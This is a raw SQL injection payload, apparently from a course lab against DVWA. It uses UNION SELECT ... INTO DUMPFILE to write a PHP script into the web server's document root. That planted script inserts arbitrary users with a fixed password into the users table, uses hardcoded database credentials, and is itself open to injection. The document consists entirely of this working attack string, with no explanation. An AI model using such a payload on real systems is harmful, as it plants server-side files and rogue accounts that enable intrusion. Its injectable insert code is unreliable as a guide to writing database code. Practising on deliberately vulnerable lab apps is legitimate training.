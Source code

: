# IAW301
' union select null,'<?php if(isset($_POST["submit"])) { $userID = $_POST["userID"]; $first_name = $_POST["first_name"]; $last_name = $_POST["last_name"]; $username = $_POST["username"]; $avatar = $_POST["avatar"]; echo "userID: $userID<BR>"; echo "first_name: $first_name<BR>"; echo "last_name: $last_name<BR>"; echo "username: $username<BR>"; echo "avatar: $avatar<BR>"; $con=mysqli_connect("127.0.0.1","minhlqhe140825","bnm123456","dvwa"); if (mysqli_connect_errno()) { echo "Failed to connect to MySQL: " . mysqli_connect_error(); } else { echo "Connected to database<BR>"; } $password = "abc123"; $sql="insert into dvwa.users values (\\"$userID\\",\\"$first_name\\",\\"$last_name\\",\\"$username\\",MD5(\\"$password\\"),\\"$avatar\\")"; if (mysqli_query($con,$sql)) { echo "[Successful Insertion]: $sql"; } else { echo "Error creating database: " . mysqli_error($con); } mysqli_close($con); } ?> <form method="post" action="<?php echo $_SERVER["PHP_SELF"]; ?>"> <input type="text" name="userID" value="33"><br> <input type="text" name="first_name" value="John"><br> <input type="text" name="last_name" value="Gray"><br> <input type="text" name="username" value="jgray"><br> <input type="text" name="avatar" value="Just Hack It!"><br> <input type="submit" name="submit" value="Submit Form"><br> </form>' INTO DUMPFILE 'C:\xampp\htdocs\DVWA\create_user.php' -- -
